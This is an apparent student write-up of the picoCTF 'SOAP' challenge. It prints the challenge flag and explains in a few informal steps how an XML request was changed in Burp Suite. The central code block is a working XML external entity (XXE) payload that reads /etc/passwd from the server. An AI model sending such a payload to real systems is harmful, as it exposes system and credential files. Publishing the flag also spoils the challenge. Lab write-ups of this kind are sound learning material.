 # SOAP

**Flag:** `picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}`

How you approached the challenge:

- step 1
i understood from the tag what i needed to do was that is an xxe attack(done in advent of cyber)
now i need the file with xml data and modify it with this with the help of burp suite by send it to repeater

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>
```

- step 2
now we send the request and get the flag

What you learned through solving this challenge:

1. revised xxe attack
   
References

- portswigger for payload
  
